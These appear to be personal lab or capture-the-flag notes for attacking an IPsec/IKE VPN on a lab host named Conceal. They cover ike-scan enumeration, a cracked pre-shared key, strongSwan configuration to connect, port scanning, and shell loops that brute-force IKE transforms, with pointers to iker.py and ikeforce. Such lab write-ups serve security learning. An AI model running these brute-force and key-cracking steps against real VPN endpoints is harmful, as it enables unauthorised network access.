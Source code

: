 https://book.hacktricks.xyz/pentesting/ipsec-ike-vpn-pentesting
```
ike-scan -M $TARGET
```
echo -n 9C8B1A372B1878851BE2C097031B6E43 | wc -c
Check with crackstation:
`dudecake1!`
```
sudo apt install strongswan -y
```
```
echo '10.129.224.37 : PSK "Dudecake1!"' >> /etc/ipsec.secrets
```
```
sudo mousepad /etc/ipsec.conf
```
```
conn Conceal
	type=transport
	keyexchange=ikev1
	right=10.129.224.37
	authby=psk
	rightprotoport=tcp
	leftprotoport=tcp
	esp=3des-sha1
	ike=3des-sha1-modp1024
	auto=start
```
```
sudo ipsec stop
```
```
sudo ipsec start --nofork
```
```
nmap -p- -sT 10.129.224.37
```
---
```
for ENC in 1 2 3 4 5 6 7/128 7/192 7/256 8; do for HASH in 1 2 3 4 5 6; do for AUTH in 1 2 3 4 5 6 7 8 64221 64222 64223 64224 65001 65002 65003 65004 65005 65006 65007 65008 65009 65010; do for GROUP in 1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18; do echo "--trans=$ENC,$HASH,$AUTH,$GROUP" >> ike-dict.txt ;done ;done ;done ;done
```
And then brute-force each one using ike-scan (this can take several minutes):
```
while read line; do (echo "Valid trans found: $line" && sudo ike-scan -M $line $TARGET) | grep -B14 "1 returned handshake" | grep "Valid trans found" ; done < ike-dict.txt
```
If the brute-force didn't work, maybe the server is responding without handshakes even to valid transforms. Then, you could try the same brute-force but using aggressive mode:
```
while read line; do (echo "Valid trans found: $line" && ike-scan -M --aggressive -P handshake.txt $line $TARGET) | grep -B7 "SA=" | grep "Valid trans found" ; done < ike-dict.txt
```
Hopefully a valid transformation is echoed back. You can try the same attack using https://github.com/isaudits/scripts/blob/master/iker.py
ou could also try to brute force transformations with https://github.com/SpiderLabs/ikeforce
```
./ikeforce.py <IP> # No parameters are required for scan -h for additional help
```